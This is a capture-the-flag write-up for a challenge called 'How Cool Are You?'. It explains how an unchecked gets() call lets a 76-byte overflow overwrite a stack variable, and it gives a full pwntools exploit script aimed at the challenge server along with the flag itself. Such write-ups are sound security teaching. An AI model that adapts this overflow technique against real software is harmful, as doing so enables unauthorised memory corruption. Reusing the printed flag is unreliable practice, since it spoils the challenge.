







# How Cool Are You? - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:



---

## Challenge Summary

This program calculates a random "coolness" score for the user and asks for their name. It uses the unsafe `gets()` function to read the username, which allows a buffer overflow vulnerability.

To get the flag, you need to overwrite the `your_estimated_coolness` variable’s value with the magic number `1500000001`. This will trigger the special condition that prints the flag stored in the environment variable `FLAG`.

The main exploit vector is a classic **stack-based buffer overflow** via the `gets()` call, allowing you to overwrite adjacent variables on the stack.

## Binary Information

```bash
$ file chal
```



```bash
$ pwn checksec chal
```



---

## Static Analysis (CLion - JetBrains)

Using CLion, we can easily inspect the program logic and identify the vulnerability:

### Key Observations:

- **User input is read using `gets(your_name);`**, which is an unsafe function that **does not perform bounds checking**. This allows overflowing the 64-byte `your_name` buffer.

  

- The next variable on the stack after `your_name` is `your_estimated_coolness` — an `int` that determines if the flag is printed.

- The **coolness value is assigned before the `gets()` call**, which means a crafted input can overwrite it with a specific value: `1500000001`.

- The program checks for an **exact match** with that value to reveal the flag via `getenv("FLAG")`.

  

---

## Exploit Strategy

This challenge relies on a classic **stack-based buffer overflow**. By overflowing a local buffer (`your_name`), we can overwrite an adjacent variable (`your_estimated_coolness`) on the stack.

To solve the challenge, we supply carefully crafted input that:

- Fills the buffer completely.
- Overwrites the coolness value with the exact number required to pass the check (`1500000001`).

No need for shellcode or control flow hijacking—just simple memory corruption to meet a condition.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chal --host kubenode.mctf.io --port 30005
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30005)

env_vars = {
        "FLAG":"MetaCTF{dummy_flag}"
}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env=env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 76
payload = flat (
        b'A' * offset,
        p64(0x59682f01)
)
io.sendline(payload)
io.recvuntil(b"Oh, right, here's the flag: ")
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output



---

## Vulnerability Summary

The program uses the unsafe [`gets()`](w) function to read user input into a fixed-size buffer (`your_name[64]`). Since `gets()` performs **no bounds checking**, an attacker can overflow the buffer and overwrite adjacent stack variables.

The adjacent variable, `your_estimated_coolness`, controls access to the flag. By overflowing `your_name` and setting this variable to `1500000001`, the attacker can bypass the check and print the flag—making this a classic **stack buffer overflow** vulnerability.

---

## Flag

```
MetaCTF{oh_w0w_y0ur3_pr3tty_c00l_aft3r_a11}
```
